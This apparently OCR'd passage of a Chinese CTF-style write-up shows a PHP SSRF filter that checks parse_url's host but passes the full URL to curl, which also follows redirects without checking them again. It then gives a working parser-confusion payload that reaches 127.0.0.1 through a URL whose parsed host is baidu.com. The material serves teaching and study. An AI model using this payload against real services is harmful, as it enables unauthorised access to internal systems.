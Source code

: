 ```php
        die('url fomat error'); 
        return false; 
    } 
    $hostname=$url_parse['host'];  # 取host字段进行验证
    $ip=gethostbyname($hostname); # 返回主机名对应的ip地址
    $int_ip=ip2long($ip);  #将ip地址转换为长整型的数字
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16; 
}  
//如果host为内部ip,则返回1

function safe_request_url($url) 
{ 
     
    if (check_inner_ip($url)) 
    { 
        echo $url.' is inner ip'; 
    } 
    else 
    {
        $ch = curl_init(); 
        curl_setopt($ch, CURLOPT_URL, $url); 
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1); 
        curl_setopt($ch, CURLOPT_HEADER, 0); 
        $output = curl_exec($ch); 
        $result_info = curl_getinfo($ch); 
        if ($result_info['redirect_url']) 
        { 
            safe_request_url($result_info['redirect_url']); 
        } 
        curl_close($ch); 
        var_dump($output); 
    } 
     
} 

$url = $_GET['url']; 
if(!empty($url)){ 
    safe_request_url($url); 
} 

?>
```

这里注意在`check_inner_ip`中,检测的是`parse_url`后的`hostname`

而最后`safe_request_url`中`curl`请求的则是完整的`url`

那么这里就可以利用这点区别,让检测到的host和`curl`请求的目标不一样

payload:

```
?url=http://a:@127.0.0.1:80@baidu.com/flag.php

url_parse请求到的host为: baidu.com
而curl请求的为 127.0.0.1
这样就绕过了检测去访问到了目标上的文件
```
